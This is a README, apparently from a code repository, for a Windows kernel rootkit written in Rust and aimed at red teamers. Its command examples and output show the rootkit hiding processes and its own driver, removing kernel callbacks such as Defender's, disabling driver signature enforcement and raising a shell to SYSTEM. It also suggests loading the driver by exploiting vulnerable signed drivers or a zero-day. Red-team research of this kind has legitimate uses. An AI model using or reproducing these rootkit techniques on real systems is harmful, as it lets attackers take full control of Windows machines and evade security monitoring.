



# Windows Kernel Driver in Rust (Rusty Rootkit) for Red Teamers

Blog: https://memn0ps.github.io/rusty-windows-kernel-rootkit/

## Features (Development in progress)

* Protect / unprotect process (Done)
* Elevate to NT AUTHORITY\\SYSTEM and Enable all token privileges (Done)
* Hide process (Done)
* Hide driver (Done)
* Enumerate loaded kernel modules (Done)
* Enumerate / remove kernel callbacks
  * PsSetCreateProcessNotifyRoutine (Done)
  * PsSetCreateThreadNotifyRoutine (Todo)
  * PsSetLoadImageNotifyRoutine (Todo)
  * CmRegisterCallbackEx (Todo)
  * ObRegisterCallbacks (Todo)
* DSE enable/disable (Done)

## Usage

```
PS C:\Users\memn0ps\Desktop> .\client.exe -h
client 0.1.0

USAGE:
    client.exe <SUBCOMMAND>

OPTIONS:
    -h, --help       Print help information
    -V, --version    Print version information

SUBCOMMANDS:
    callbacks
    driver
    dse
    help         Print this message or the help of the given subcommand(s)
    process
```

```
client.exe-process

USAGE:
    client.exe process --name <PROCESS> <--protect|--unprotect|--elevate|--hide>

OPTIONS:
    -e, --elevate           Elevate all token privileges
    -h, --help              Print help information
        --hide              Hide a process using Direct Kernel Object Manipulation (DKOM)
    -n, --name <PROCESS>    Target process name
    -p, --protect           Protect a process
    -u, --unprotect         Unprotect a process
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe callbacks -h
client.exe-callbacks

USAGE:
    client.exe callbacks <--enumerate|--patch <PATCH>>

OPTIONS:
    -e, --enumerate        Enumerate kernel callbacks
    -h, --help             Print help information
    -p, --patch <PATCH>    Patch kernel callbacks 0-63
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe dse -h
client.exe-dse

USAGE:
    client.exe dse <--enable|--disable>

OPTIONS:
    -d, --disable    Disable Driver Signature Enforcement (DSE)
    -e, --enable     Enable Driver Signature Enforcement (DSE)
    -h, --help       Print help information
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe driver -h
client.exe-driver

USAGE:
    client.exe driver <--hide|--enumerate>

OPTIONS:
    -e, --enumerate    Enumerate loaded kernel modules
    -h, --help         Print help information
        --hide         Hide a driver using Direct Kernel Object Manipulation (DKOM)
```

## Enumerate and Patch Kernel Callbacks

```
PS C:\Users\memn0ps\Desktop> .\client.exe callbacks --enumerate
Total Kernel Callbacks: 11
[0] 0xffffbd8d3d2502df ("ntoskrnl.exe")
[1] 0xffffbd8d3d2fe81f ("cng.sys")
[2] 0xffffbd8d3db2bc8f ("WdFilter.sys")
[3] 0xffffbd8d3db2bf8f ("ksecdd.sys")
[4] 0xffffbd8d3db2c0df ("tcpip.sys")
[5] 0xffffbd8d3f10705f ("iorate.sys")
[6] 0xffffbd8d3f10765f ("CI.dll")
[7] 0xffffbd8d3f10789f ("dxgkrnl.sys")
[8] 0xffffbd8d3fa37cff ("vm3dmp.sys")
[9] 0xffffbd8d3f97104f ("peauth.sys")
[10] 0xffffbd8d43afb63f ("Eagle.sys")
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe callbacks --patch 10
[+] Callback patched successfully at index 10
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe callbacks --enumerate
Total Kernel Callbacks: 10
[0] 0xffffbd8d3d2502df ("ntoskrnl.exe")
[1] 0xffffbd8d3d2fe81f ("cng.sys")
[2] 0xffffbd8d3db2bc8f ("WdFilter.sys")
[3] 0xffffbd8d3db2bf8f ("ksecdd.sys")
[4] 0xffffbd8d3db2c0df ("tcpip.sys")
[5] 0xffffbd8d3f10705f ("iorate.sys")
[6] 0xffffbd8d3f10765f ("CI.dll")
[7] 0xffffbd8d3f10789f ("dxgkrnl.sys")
[8] 0xffffbd8d3fa37cff ("vm3dmp.sys")
[9] 0xffffbd8d3f97104f ("peauth.sys")
```

## Protect / Unprotect Process

```
PS C:\Users\memn0ps\Desktop> .\client.exe process --name notepad.exe --protect
[+] Process protected successfully 2104
```



```
PS C:\Users\memn0ps\Desktop> .\client.exe process --name notepad.exe --unprotect
[+] Process unprotected successfully 2104
```


## Elevate to NT AUTHORITY\\System and Enable All Token Privileges

```
PS C:\Users\memn0ps\Desktop> whoami /all

USER INFORMATION

================== ==============================================
windows-10-vm\user S-1-5-21-3694103140-4081734440-3706941413-1001


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Performance Log Users                                 Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe process --name powershell.exe --elevate
[+] Tokens privileges elevated successfully 6376
```

```
PS C:\Users\memn0ps\Desktop> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeCreateTokenPrivilege                    Create a token object                                              Enabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Enabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeAuditPrivilege                          Generate security audits                                           Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeTrustedCredManAccessPrivilege           Access Credential Manager as a trusted caller                      Enabled
SeRelabelPrivilege                        Modify an object label                                             Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

PS C:\Users\memn0ps\Desktop>
```


## Enable / Disable Driver Signature Enforcement (DSE)

```
PS C:\Users\memn0ps\Desktop> .\client.exe dse --enable
Bytes returned: 16
[+] Driver Signature Enforcement (DSE) enabled: 0x6
```
```
0: kd> db 0xfffff8005a6683b8 L1
fffff800`5a6683b8  06 
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe dse --disable
Bytes returned: 16
[+] Driver Signature Enforcement (DSE) disabled: 0xe
```

```
0: kd> db 0xfffff8005a6683b8 L1
fffff800`5a6683b8  0e
```

## Hide Process




```
PS C:\Users\memn0ps\Desktop> .\client.exe process --name powershell.exe --hide
[+] Process is hidden successfully: 6376
```




## Hide Driver

Hidden from ZwQuerySystemInformation and PsLoadedModuleList

```
PS C:\Users\memn0ps\Desktop> .\client.exe driver --enumerate
Total Number of Modules: 185
[0] 0xfffff80058c00000 "ntoskrnl.exe"
[1] 0xfffff80054d20000 "hal.dll"
<..OMITTED..>
[180] 0xfffff80054600000 "KERNEL32.dll"
[181] 0xfffff80054200000 "ntdll.dll"
[182] 0xfffff800553f0000 "KERNELBASE.dll"
[183] 0xfffff800556f0000 "MpKslDrv.sys"
[184] 0xfffff80055720000 "Eagle.sys"
[+] Loaded modules enumerated successfully
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe driver --hide
[+] Driver hidden successfully
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe driver --enumerate
Total Number of Modules: 184
[0] 0xfffff80058c00000 "ntoskrnl.exe"
[1] 0xfffff80054d20000 "hal.dll"
<..OMITTED..>
[180] 0xfffff80054600000 "KERNEL32.dll"
[181] 0xfffff80054200000 "ntdll.dll"
[182] 0xfffff800553f0000 "KERNELBASE.dll"
[183] 0xfffff800556f0000 "MpKslDrv.sys"
[+] Loaded modules enumerated successfully
```


## [Install Rust](https://www.rust-lang.org/tools/install)

To start using Rust, [download the installer](https://www.rust-lang.org/tools/install), then run the program and follow the onscreen instructions. You may need to install the [Visual Studio C++ Build tools](https://visualstudio.microsoft.com/visual-cpp-build-tools/) when prompted to do so.


## [Install](https://rust-lang.github.io/rustup/concepts/channels.html)

Install and change to Rust nightly

```
rustup toolchain install nightly
rustup default nightly
```

## [Install cargo-make](https://github.com/sagiegurari/cargo-make)

Install cargo-make

```
cargo install cargo-make
```

## [Install WDK/SDK](https://docs.microsoft.com/en-us/windows-hardware/drivers/download-the-wdk)

* Step 1: Install Visual Studio 2019
* Step 2: Install Windows 11 SDK (22000.1)
* Step 3: Install Windows 11 WDK

## Build Driver

Change directory to `.\driver\` and build driver

```
cargo make sign
```

## Build Client

Change directory to `.\client\` and build client

```
cargo build
```

## Enable `Test Mode` or `Test Signing` Mode 

```
bcdedit /set testsigning on
```

### [Optional] Debug via Windbg

```
bcdedit /debug on
bcdedit /dbgsettings net hostip:<IP> port:<PORT>
```

## Create / Start Service

You can use [Service Control Manager](https://docs.microsoft.com/en-us/windows/win32/services/service-control-manager) or [OSR Driver Loader](https://www.osronline.com/article.cfm%5Earticle=157.htm) to load your driver.

```
PS C:\Users\memn0ps> sc.exe create Eagle type= kernel binPath= C:\Windows\System32\Eagle.sys
[SC] CreateService SUCCESS
PS C:\Users\memn0ps> sc.exe query Eagle

SERVICE_NAME: Eagle
        TYPE               : 1  KERNEL_DRIVER
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
PS C:\Users\memn0ps> sc.exe start Eagle

SERVICE_NAME: Eagle
        TYPE               : 1  KERNEL_DRIVER
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 0
        FLAGS              :
PS C:\Users\memn0ps> sc.exe stop Eagle

SERVICE_NAME: Eagle
        TYPE               : 1  KERNEL_DRIVER
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Currently, this driver does not support manual mapping. However, an alternative way to load your driver is to manually map it by exploiting an existing CVE in a signed driver that is already loaded such as Intel or Capcom, although vulnerable drivers can be flagged easily by EDRs or ACs.

* https://github.com/TheCruZ/kdmapper (`iqvw64e.sys` Intel driver)
* https://github.com/not-wlan/drvmap (`capcom.sys` Capcom driver)
* https://github.com/zorftw/kdmapper-rs

Otherwise you can always get an [extended validation (EV) code signing certificate](https://docs.microsoft.com/en-us/windows-hardware/drivers/dashboard/get-a-code-signing-certificate) by Microsoft which goes through a "vetting" process or use a 0-day which is really up to you lol.

## Note

A better way to code Windows Kernel Drivers in Rust is to create bindings as shown in the references below. However, using someone else's bindings hides the functionality and this is why I made it the classic way unless, of course, you create your own bindings. I plan on refactoring the code in the future but for now, it will be a bit messy and incomplete.

I made this project for fun and because I really like Rust and Windows Internals. This is obviously not perfect or finished yet. if you would like to learn more about Windows Kernel Programming then feel free to check out the references below. The prefered safe and robust way of coding Windows Kernel Drivers in Rust is shown here:

* https://codentium.com/guides/windows-dev/
* https://github.com/StephanvanSchaik/windows-kernel-rs/ 

## References and Credits

* https://not-matthias.github.io/kernel-driver-with-rust/ (Big thanks to @not_matthias)
* https://github.com/not-matthias/kernel-driver-with-rust/
* https://courses.zeropointsecurity.co.uk/courses/offensive-driver-development (Big thanks to @_RastaMouse)
* https://leanpub.com/windowskernelprogramming Windows Kernel Programming Book (Big thanks to Pavel Yosifovich @zodiacon)
* https://www.amazon.com/Rootkits-Subverting-Windows-Greg-Hoglund/dp/0321294319 (Big thanks to Greg Hoglund and James Butler for Rootkits: Subverting the Windows Kernel Book)
* https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/ (Big thanks to HackSysTeam)
* https://codentium.com/guides/windows-dev/
* https://github.com/StephanvanSchaik/windows-kernel-rs/
* https://github.com/rmccrystal/kernel-rs
* https://github.com/pravic/winapi-kmd-rs
* https://guidedhacking.com/
* https://www.unknowncheats.me/
* https://gamehacking.academy/
* https://secret.club/
* https://back.engineering/
* https://www.vergiliusproject.com/kernels/x64
* https://www.crowdstrike.com/blog/evolution-protected-processes-part-1-pass-hash-mitigations-windows-81/
* https://discord.com/invite/rust-lang-community (Big thanks to: WithinRafael, Nick12, Zuix, DuckThatSits, matt1992, kpreid, Bruh and many others)
* https://twitter.com/the_secret_club/status/1386215138148196353 Discord (hugsy, themagicalgamer)
* https://www.rust-lang.org/
* https://doc.rust-lang.org/book/
* https://posts.specterops.io/mimidrv-in-depth-4d273d19e148
* https://br-sn.github.io/Removing-Kernel-Callbacks-Using-Signed-Drivers/
* https://www.mdsec.co.uk/2021/06/bypassing-image-load-kernel-callbacks/
* https://m0uk4.gitbook.io/notebooks/mouka/windowsinternal/find-kernel-module-address-todo
* https://github.com/XaFF-XaFF/Cronos-Rootkit/
* https://github.com/JKornev/hidden
* https://github.com/landhb/HideProcess
* https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/manipulating-activeprocesslinks-to-unlink-processes-in-userland
* https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/how-kernel-exploits-abuse-tokens-for-privilege-escalation
